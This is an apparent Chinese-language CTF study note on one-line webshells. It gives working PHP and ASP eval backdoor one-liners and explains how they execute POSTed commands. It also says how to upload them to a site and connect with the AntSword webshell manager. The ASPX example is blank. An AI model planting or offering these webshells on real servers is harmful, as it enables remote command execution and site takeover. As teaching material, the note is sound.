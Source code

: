 #### <font style="color:rgb(79, 79, 79);">入侵条件：</font>
<font style="color:rgb(77, 77, 77);">其中，只要攻击者满足三个条件，就能实现成功入侵：</font>

```plain
木马上传成功，未被杀；
知道木马的路径在哪；
上传的木马能正常运行。
```

#### <font style="color:rgb(79, 79, 79);">常见形式：</font>
<font style="color:rgb(77, 77, 77);">常见的一句话木马：</font>

```plain
php的一句话木马： <?php @eval($_POST['pass']);?>
asp的一句话是：   <%eval request ("pass")%>
aspx的一句话是：  <%@ Page Language="Jscript"%> <%                                    %>
```

<font style="color:rgb(77, 77, 77);">我们可以直接将这些语句插入到网站上的某个asp/aspx/php文件上，或者直接创建一个新的文件，在里面写入这些语句，然后把文件上传到网站上即可。</font>

#### <font style="color:rgb(79, 79, 79);">基本原理：</font>
<font style="color:rgb(77, 77, 77);">首先我们先看一个原始而又简单的php一句话木马：</font>

```plain
   <?php @eval($_POST['cmd']); ?>
```

<font style="color:rgb(77, 77, 77);">这是php的一句话后门中最普遍的一种。它的工作原理是：</font>  
<font style="color:rgb(77, 77, 77);">首先存在一个名为'cmd'的变量，'cmd'的取值为HTTP的POST方式。Web服务器对'cmd'取值以后，然后通过eval()函数执行'cmd'里面的内容。</font>

### <font style="color:rgb(77, 77, 77);">关于中国蚁剑的安装与使用：</font>
#### 安装：
安装过程可以参考[链接](https://blog.csdn.net/qq_60450539/article/details/138398460?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522080FB7DF-06C1-4710-A677-B0E2634E2829%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&request_id=080FB7DF-06C1-4710-A677-B0E2634E2829&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduend~default-1-138398460-null-null.142^v100^pc_search_result_base7&utm_term=%E4%B8%AD%E5%9B%BD%E8%9A%81%E5%89%91%E5%AE%89%E8%A3%85%E6%95%99%E7%A8%8B&spm=1018.2226.3001.4187)

#### 使用：
进入中国蚁剑首页 在空白处右键点击添加数据

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1731405840127-a03dd4ec-39d1-4ebb-a090-ae0cef1569df.png)

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1731405892899-e6f4a6a1-2333-4cbb-9d78-b6f16267cec1.png)

输入相应的网址及webshell的位置 例如题目中的

```plain
url/uploads/eval.php
```
